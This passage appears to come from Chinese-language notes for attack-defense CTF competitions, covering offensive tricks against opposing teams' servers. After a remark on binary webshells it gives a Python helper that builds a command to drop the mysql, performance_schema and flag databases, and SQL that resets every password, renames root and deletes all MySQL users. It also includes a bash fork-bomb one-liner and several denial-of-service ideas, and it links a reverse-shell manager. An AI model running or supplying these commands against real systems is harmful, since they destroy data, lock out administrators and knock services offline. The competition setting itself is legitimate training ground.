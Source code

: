    > 这里讲一下二进制马，我至今还没找到那种可以动态变pid，而且执行速度超快的二进制马。所以，在当下看来，二进制马作用其实不大，因为所有的二进制马都可以通过杀死内存马的方式杀掉，就显得很鸡肋。如果后面发现了这种快速执行的骚马，可以拿出来讲一讲。

## 6. 其他

1. 数据库相关

   删除数据库

   ```python
   import base64
   def rm_db(db_user,my_db_passwd):
       cmd = "/usr/bin/mysql -h localhost -u%s %s -e '"%(db_user,my_db_passwd)
       db_name = ['performance_schema','mysql','flag']
       for db in db_name:
           cmd += "drop database %s;"%db
       cmd += "'"
       return cmd  
   ```

   修改用户信息

   ```sql
   update mysql.user set authentication_string=PASSWORD('hi23333');# 修改所有用户密码
   flush privileges;
   UPDATE mysql.user SET User='aaaaaaaaaaaa' WHERE user='root'; 
   flush privileges;
   delete from mysql.user ;#删除所有用户
   flush privileges;
   ```

2. fork炸弹

   ```bash
   /bin/echo '.() { .|.& } && .' > /tmp/aaa;/bin/bash /tmp/aaa;
   ```

3. 滥用杀死不死马脚本，不停kill apache2，造成dos

4. 大量发送长度超长的脚本，造成dos

5. mysql sleep型dos

6. 所有的正向shell可以自己写一段简单的python脚本进行控制与管理，而反向shell可以使用[王一航写的反向shell管理器](https://github.com/WangYihang/Reverse-Shell-Manager).现在的反向shell管理器还存在一些bug。

7. ....



